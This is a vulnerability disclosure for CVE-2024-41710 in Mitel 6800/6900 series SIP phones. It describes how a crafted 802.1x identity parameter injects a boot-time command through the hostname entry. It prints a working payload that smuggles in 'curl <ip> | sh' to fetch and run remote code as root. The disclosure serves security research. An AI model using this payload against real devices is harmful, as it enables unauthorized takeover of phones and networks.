 # Mitel 6800 6.3.0.1020

The Mitel 6869i SIP Phone, firmware version `6.3.0.1020` fails to properly sanitize user supplied input. Multiple endpoints were found susceptible to this technique, however for demonstration purposes and in order to gain root access to the device, the endpoint '802.1x Support' (`8021xsupport.html`) and parameter `802.1x+identity` were taken advantage of.

Requests to ``8021xsupport.html`` can be used to update the devices local configuration (`/nvdata/etc/local.cfg`). By sending a specially crafted HTTP POST requests It's possible to smuggle in entries that would have originally been blocked by the applications sanitization checks.

By sending the byte value of `%dt` the  `linemgrSip` web application will interpret this as a line ending character `%0d`.  This character interpretation can be levered during the boot process, where the contents of `/nvdata/etc/local.cfg` are read and used to perform startup actions. During boot, the device will overwrite higher position entries. The `hostname` entry was targeted due to It's use with the `udhcpc` startup process.

The following payload Is specified in the `802.1x+identity` HTTP POST parameter to gain code execution.

```
AAAAA%dthostname: QWERTY -t 302400 -T 6 -b -a -i eth0 -s /usr/share/udhcpc/default.script -p /var/run/udhcpc.eth.pid; curl <ip> | sh ;%dt%dt%dt
```

During boot, the application will overwrite the targeted `hostname` entry in `/nvdata/etc/local.cfg`. The `hostname` entry is subsequently used during boot and will execute the prepended shell script.

## Affected Assets
Affected assets are based on tested firmware versions. It's possible that other versions may contain the same vulnerability. 
**6800 R6.3.0.1020**
- https://swdl.mitel.com/swdl/6800-Phones/6800_R6.3.0.1020_(R6.3.0.SP1).zip

**R6.4.0.HF1 (R6.4.0.136) and earlier**
* Mitel 6800 Series SIP Phones
* Mitel 6900 Series SIP Phones
* Mitel 6900w Series SIP Phone
* Mitel 6970 Conference Unit

### CVE-ID
CVE-2024-41710

### Security Advisories
[mitel.com](https://www.mitel.com/support/security-advisories/mitel-product-security-advisory-24-0019)

### Credit
Kyle Burns (kburns@packetlabs.net)